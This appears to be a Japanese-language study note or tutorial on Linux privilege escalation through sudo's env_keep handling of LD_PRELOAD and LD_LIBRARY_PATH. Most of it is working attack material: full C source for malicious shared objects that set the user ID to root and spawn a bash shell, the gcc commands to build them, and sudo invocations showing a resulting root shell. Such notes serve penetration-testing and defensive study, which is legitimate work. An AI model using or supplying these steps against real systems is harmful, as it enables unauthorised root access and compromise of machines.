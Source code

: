 sudoを通して実行されるプログラムは、ユーザーの環境から環境変数を継承することができます。   
etc/sudoers 設定ファイルで、***env_reset*** オプションが設定されている場合、sudo は新しい最小限の環境でプログラムを実行します。   
***env_keep*** オプションを使用すると、特定の環境変数をユーザーの環境から保持することができます。  
設定されたオプションは、sudo -lを実行したときに表示されます。    
## LD_PRELOAD
LD_PRELOAD は環境変数で、共有オブジェクト (.so) ファイルのパスを設定します。   
設定されると、共有オブジェクトは他のどのオブジェクトよりも先にロードされます。   
カスタム共有オブジェクトを作成し、init()関数を作成することで、オブジェクトがロードされると同時にコードを実行することができるようになります。   
実ユーザー ID が実効ユーザー ID と異なる場合、LD_PRELOAD は機能しません。   
env_keep オプションを使用して LD_PRELOAD 環境変数を保持するように sudo を構成する必要があります。   
# Privilege Escalation
1. ユーザーがsudoで実行を許可されているプログラムをリストアップします。
```
$ sudo -l
Matching Defaults entries for user on this host:
env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```
env_keepオプションには、環境変数である   
LD_PRELOAD 環境変数が含まれることに注意してください。   
2. 以下の内容のファイル（preload.c）を作成します。
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
```
3. preload.cをpreload.soにコンパイルします。
```
$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```
4. 環境変数LD_PRELOADにpreload.soファイルのフルパスを設定し、sudoを使って許可された任意のプログラムを実行します。
```
$ sudo LD_PRELOAD=/tmp/preload.so apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```
## LD_LIBRARY_PATH
LD_LIBRARY_PATH環境変数は、共有ライブラリが最初に検索されるディレクトリのセットを含んでいます。   
lddコマンドは、プログラムが使用する共有ライブラリを表示するために使用されます。   
```
$ ldd /usr/sbin/apache2
```
プログラムが使用するものと同じ名前の共有ライブラリを作成し、LD_LIBRARY_PATH をその親ディレクトリに設定すると、プログラムは代わりに共有ライブラリをロードします。   
# Privilege Escalation
1. apache2 プログラムファイルに対して ldd を実行します。
```
$ ldd /usr/sbin/apache2
linux-vdso.so.1 => (0x00007fff063ff000)
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)
```
この方法で共有オブジェクトをハイジャックするのは当たり外れがあります。リストから1つ選んで試してみてください(libcrypt.so.1がうまくいくようです)。
2. 以下の内容のファイル（library_path.c）を作成します。
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```
3. library_path.c を libcrypt.so.1 にコンパイルしてください。
```
$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
4. 環境変数LD_LIBRARY_PATHに現在のパス（library_path.cをコンパイルした場所）を設定しながら、sudoでapache2を実行します。
```$ sudo LD_LIBRARY_PATH=. apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

